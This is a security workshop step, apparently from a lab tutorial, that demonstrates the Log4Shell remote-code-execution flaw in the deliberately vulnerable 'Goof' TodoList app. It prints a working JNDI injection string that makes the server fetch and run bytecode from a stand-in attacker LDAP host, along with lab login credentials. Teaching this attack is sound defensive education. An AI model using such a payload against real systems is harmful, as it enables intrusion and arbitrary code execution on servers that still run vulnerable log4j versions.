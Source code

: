 +++
title = "Step 10: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## Exploiting an RCE vulnerability in the TodoList application. 

The `Goof` repo TodoList application includes various exploits to demonstrate the risks of open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly profific open source package with a critical CVE that was relatively easy to exmploit and gives malicous actors a remote code execution vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo $TODOLIST_LB/todolist
```
```sh
a4b2da77928d242b38e4229083fc2669-2133201151.us-east-1.elb.amazonaws.com/todolist
```

When you open that URL in your browser, you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User: foo@bar.com
* Password: foobar

![todolist-login](/images/todolist-login.png)

### Trigger the exploit
In the search field enter the following string `${jndi:ldap://ldap.darkweb:80/#Vandalize}` and submit the search.
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately, you can see that the header for the entire site has been modified to show a the hacker equivelent of graphiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.
